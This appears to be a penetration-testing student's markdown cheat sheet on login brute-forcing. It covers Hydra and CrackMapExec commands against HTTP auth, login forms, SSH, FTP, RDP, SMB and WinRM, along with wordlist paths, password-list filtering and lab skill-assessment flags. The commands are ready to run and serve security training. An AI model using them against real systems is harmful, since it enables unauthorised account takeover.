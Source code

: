 #login-brute-forcing #hydra #Medusa #wfuzz #Ncrack #patator 


[[Custom Word Lists and Rules]]
[[Password Reuse - Default Passwords]]
[[Password Cracking]]

---
# Hydra

| **Command**                                                                                                                                                   | **Description**                                                                  |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------- |
| `hydra -h`                                                                                                                                                    | hydra help                                                                       |
| `hydra -C wordlist.txt SERVER_IP -s PORT http-get /`                                                                                                          | `Basic Auth` Brute Force - `Combined Wordlist`                                   |
| `hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /`                                                                                    | `Basic Auth` Brute Force - User/Pass Wordlists                                   |
| `hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"`                        | `Login Form` Brute Force - Static User, Pass Wordlist                            |
| `hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4`                                                                                            | `SSH` Brute Force - User/Pass Wordlists                                          |
| `hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1`                                                                                                          | `FTP` Brute Force - Static User, Pass Wordlist                                   |
| `hydra -L /usr/share/wordlists/seclists/Usernames/Names/names.txt -P /usr/share/wordlists/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /`                | Basic Auth brute force trying `each user name against password` before moving on |
| `hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 83.136.254.53 -s 33944 http-get / `                       | flag 1 (skill assessment)                                                        |
| `hydra -l user -P /usr/share/wordlists/rockyou.txt -f 94.237.59.185 -s 47028 http-post-form "/admin_login.php:user=^USER^&pass=^PASS^:F=<form name='log-in'"` | flag 2 (skill assessment)                                                        |
| `hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4`                                                                                          | Brute force `SSH`                                                                |
| `hydra -h | grep "Supported services" | tr ":" "\n" | tr " " "\n" | column -e`                                                                                | Search for available Hydra `request modules` for login brute forcing             |
| `hydra http-post-form -U`                                                                                                                                     | List all required parameters for `http-post-form`                                |
| `hydra -L user.list -P password.list ssh://10.129.42.197`                                                                                                     | Brute forcing `SSH`                                                              |
| `hydra -L user.list -P password.list rdp://10.129.42.197`                                                                                                     | Brute forcing `RDP`                                                              |
| `hydra -L user.list -P password.list smb://10.129.42.197`                                                                                                     | Brute forcing `SMB`                                                                                 |


---

# CrackMapExec

| Command                                                                                | Description                               |
| -------------------------------------------------------------------------------------- | ----------------------------------------- |
| `crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>` | The general format for using CrackMapExec |
| `crackmapexec winrm 10.129.42.197 -u user.list -p password.list`                       | Brute forcing `WinRM`                     |
|                                                                                        |                                           |

---
# Wordlists

| **Command**                                                                                 | **Description**            |
| ------------------------------------------------------------------------------------------- | -------------------------- |
| `/usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt` | Default Passwords Wordlist |
| `/usr/share/wordlists/rockyou.txt`                                                          | Common Passwords Wordlist  |
| `/opt/useful/SecLists/Usernames/Names/names.txt`                                            | Common Names Wordlist      |


---

# Misc

| **Command**                                             | **Description**                        |
| ------------------------------------------------------- | -------------------------------------- |
| `cupp -i`                                               | Creating Custom Password Wordlist      |
| `sed -ri '/^.{,7}$/d' william.txt`                      | Remove Passwords Shorter Than 8        |
| ``sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt``         | Remove Passwords With No Special Chars |
| `sed -ri '/[0-9]+/!d' william.txt`                      | Remove Passwords With No Numbers       |
| `./username-anarchy Bill Gates > bill.txt`              | Generate Usernames List                |
| `ssh b.gates@SERVER_IP -p PORT`                         | SSH to Server                          |
| `ftp 127.0.0.1`                                         | FTP to Server                          |
| `su - user`                                             | Switch to User                         |
| `evil-winrm -i <target-IP> -u <username> -p <password>` | Connecting to `WinRM`                  |
| `use auxiliary/scanner/smb/smb_login`                   | Metasploit `SMB` brute force module                                       |
 

---

# Tools

| Name                               | Description                                                      | LInk                                                |
| ---------------------------------- | ---------------------------------------------------------------- | --------------------------------------------------- |
| wfuzz                              |                                                                  |                                                     |
| Ncrack                             |                                                                  |                                                     |
| medusa                             |                                                                  |                                                     |
| patator                            |                                                                  |                                                     |
| hydra                              |                                                                  |                                                     |
| username-anarchy                   | Create `personalised user name` list                             |                                                     |
| Cupp                               | Create `custom password` list                                    |                                                     |
| The Default Credential Cheat Sheet | One place for all the `default credentials` to assist pentesters | https://github.com/ihebski/DefaultCreds-cheat-sheet |
|                                    |                                                                  |                                                     |


---